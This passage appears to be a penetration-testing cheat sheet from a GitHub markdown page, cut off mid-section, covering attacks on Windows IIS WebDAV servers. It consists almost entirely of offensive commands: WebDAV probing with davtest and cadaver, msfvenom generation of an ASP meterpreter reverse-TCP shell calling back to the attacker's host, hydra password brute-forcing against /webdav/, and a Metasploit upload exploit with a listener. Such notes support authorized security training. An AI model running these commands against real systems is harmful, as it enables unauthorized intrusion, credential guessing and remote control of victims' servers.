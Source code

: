 ```bash
searchsploit badblue 2.7
```

## Host Based Attacks

### Windows Exploitation

#### IIS WEBDAV

```bash
# IIS WEBDAV
davtest -url <URL>
davtest -auth <USER>:<PW> -url http://<TARGET_IP>/webdav

cadaver [OPTIONS] <URL>

nmap -p 80 --script http-enum -sV <TARGET_IP>
```

```bash
msfvenom -p <PAYLOAD> LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f <file_type> > shell.asp

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f asp > shell.asp
```

```bash
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt <TARGET_IP> http-get /webdav/
```

```bash
## METASPLOIT
# Global set
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

use exploit/multi/handler
use exploit/windows/iis/iis_webdav_upload_asp

set payload windows/meterpreter/reverse_tcp
set LHOST <LOCAL_HOST_IP>
set LPORT <LOCAL_PORT>

set HttpUsername <USER>
set HttpPassword <PW>
set PATH /webdav/metasploit.asp
```

### SMB

#### Nmap
